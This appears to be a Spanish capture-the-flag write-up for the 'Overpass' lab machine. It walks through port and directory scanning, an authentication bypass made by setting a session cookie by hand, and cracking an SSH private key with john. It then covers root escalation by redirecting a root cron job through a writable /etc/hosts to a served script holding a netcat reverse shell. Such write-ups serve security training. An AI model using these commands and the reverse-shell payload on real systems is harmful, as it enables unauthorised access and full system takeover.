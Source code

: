 # Introducción

Nos enfrentamos a una máquina o serie de máquinas que se hicieron como un reto, no sabemos a donde nos metemos e iremos enumerando e identificando servicios, sistema operativo, etc.

# Enumeración

## Test conectividad + SO

```
ping 10.10.67.222
PING 10.10.67.222 (10.10.67.222) 56(84) bytes of data.
64 bytes from 10.10.67.222: icmp_seq=1 ttl=64 time=0.328 ms
64 bytes from 10.10.67.222: icmp_seq=2 ttl=64 time=0.295 ms
64 bytes from 10.10.67.222: icmp_seq=3 ttl=64 time=0.280 ms
```

- Gracias a ver el ttl=64 damos por hecho que es un Linux

## Escáner puertos

```
sudo nmap -sCV -T4 --min-rate 4000 10.10.67.222

Starting Nmap 7.60 ( https://nmap.org ) at 2024-09-27 08:33 BST
Nmap scan report for ip-10-10-67-222.eu-west-1.compute.internal (10.10.67.222)
Host is up (0.00027s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (EdDSA)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
MAC Address: 02:88:3B:8C:BB:B5 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.13 seconds
```

- Puerto 22 abierto (SSH)
- Puerto 80 abierto (HTTP)

![image](https://github.com/user-attachments/assets/80af246a-bfbc-49b9-9333-631114e70348)

Nos encontramos en el código fuente Un texto importante.

"Yeah right, just because the Romans used it doesn't make it military grade, change this?"

Refieriendose quizás a la criptografíada usada, doy por hecho que el método romano es el método de Cesar.

## Escáner de directorios

```
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://10.10.67.222/FUZZ
:: Progress: [107/220560] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Er downloads               [Status: 301, Size: 0, Words: 1, Lines: 1]
:: Progress: [110/220560] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Er aboutus                 [Status: 301, Size: 0, Words: 1, Lines: 1]
:: Progress: [191/220560] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Er admin                   [Status: 301, Size: 42, Words: 3, Lines: 3]
:: Progress: [288/220560] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Er css                     [Status: 301, Size: 0, Words: 1, Lines: 1]
:: Progress: [21420/220560] :: Job [1/1] :: 19167 req/sec :: Duration: [0:00:01] http%3A%2F%2Fwww        [Status: 301, Size: 0, Words: 1, Lines: 1]
:: Progress: [54345/220560] :: Job [1/1] :: 14619 req/sec :: Duration: [0:00:04]http%3A%2F%2Fyoutube    [Status: 301, Size: 0, Words: 1, Lines: 1]
```

El único que veo factible es la ruta "admin"

![image](https://github.com/user-attachments/assets/3114e4b4-2bd7-474a-b741-11cb00b9b915)

Nos encontramos con un login.

Probando un poco y viendo información nos fijamos en el código JS, hay una función que se refiere a /api/login que manda un consulta POST

```
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```

Como vemos las lineas finales, nos da una cookie de sesión, si intentamos poner unas credenciales al azar nos saldra "Incorrent credentials" pero si las credenciales son correctas, nos enviara una cookie con valor para poder logearnos.

Que pasaria si añadieramos manualmente y cambiamos la función a 

```
Cookies.set("SessionToken",400)
```

![image](https://github.com/user-attachments/assets/bc06e47b-1b29-4f8f-82af-9d5f54e5b1e4)

GG Tenemos una RSA privada para conectarnos por SSH

![image](https://github.com/user-attachments/assets/d159308d-36b1-4f66-97ca-2836bc7e9a0f)

Como podemos apreciar dicha clave privada esta encriptada y deberemos desencriptarla usando john

Para empezar utilizaremos "ssh2john.py" para sacar el hash del rsa y así poder crackearlo

```
locate ssh2john.py
python /opt/john/ssh2john.py id_rsa > crack
```

Cuando la crackeemos con john como sabemos que es una ssh, no sera necesario que especifiquemos el formato

```
john --wordlist=/usr/share/wordlists/rockyou.txt  crackNote: This format may emit false positives, so it will keep trying even after finding a
possible candidate.
Warning: detected hash type "SSH", but the string is also recognized as "ssh-opencl"
Use the "--format=ssh-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
james13          (id_rsa)
1g 0:00:00:20 DONE (2024-09-27 09:00) 0.04926g/s 706487p/s 706487c/s 706487C/s *7¡Vamos!
Session completed. 
```

```
chmod 600 id_rsa 
root@ip-10-10-101-114:~# ssh -i id_rsa james@10.10.67.222
```

Estamos dentro

```
cat user.txt 
thm{65c1aaf000506e56996822c6281e6bf7}
james@overpass-prod:~$ cat todo.txt 
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```

# Escala de privilegios

Para empezar haremos lo más básico que es utilizar linpeas

```
locate linpeas
/opt/PEAS/linPEAS/linpeas.sh
/opt/PEAS/linPEAS/images/linpeas.png
root@ip-10-10-101-114:~# cd /opt/PEAS/linPEAS/linpeas.sh 
bash: cd: /opt/PEAS/linPEAS/linpeas.sh: Not a directory
root@ip-10-10-101-114:~# cd /opt/PEAS/linPEAS/
root@ip-10-10-101-114:/opt/PEAS/linPEAS# ls
images  linpeas.sh  README.md
root@ip-10-10-101-114:/opt/PEAS/linPEAS# python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Con el servidor abierto desde la máquina victima lo descargamos en tmp

```
cd /tmp
wget http://10.10.101.114:8000/linpeas.sh
--2024-09-27 08:12:53--  http://10.10.101.114:8000/linpeas.sh
Connecting to 10.10.101.114:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 233380 (228K) [text/x-sh]
Saving to: \u2018linpeas.sh\u2019

linpeas.sh          100%[===================>] 227.91K  --.-KB/s    in 0.08s   

2024-09-27 08:12:53 (2.69 MB/s) - \u2018linpeas.sh\u2019 saved [233380/233380]
```

```
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

Hay una cosa muy chula por aquí 

```
+] Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files
/dev/mqueue
/dev/mqueue/linpeas.txt
/dev/shm
/etc/hosts
/home/james
/run/lock
/run/screen
/run/screen/S-james
/run/user/1001
```

Lin peas nos dice que /etc/hosts se puede usar para escribir, con lo cuál podriamos llegar a redirigir un tráfico de por ejemplo "overpass.thm" a nuestra máquina y hacer una rev shell

Nos vamos a nuestra máquina normal y creamos un archivo con las mism ruta qe overpass.thm/downloads/src/buildscript.sh

```
/downloads/src# cat buildscript.sh 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.101.114 1234 >/tmp/f
```

Nos vamos a /etc/hosts de la máquina victima y cambiamos la ip de "overpass.thm" a la nuestra

![image](https://github.com/user-attachments/assets/cb010dbb-27d5-4cbf-ba35-4b3a241bde16)

Deberemos abrir un servidor de python por el puerto 80 y simplemente esperar GG

Somo ROot

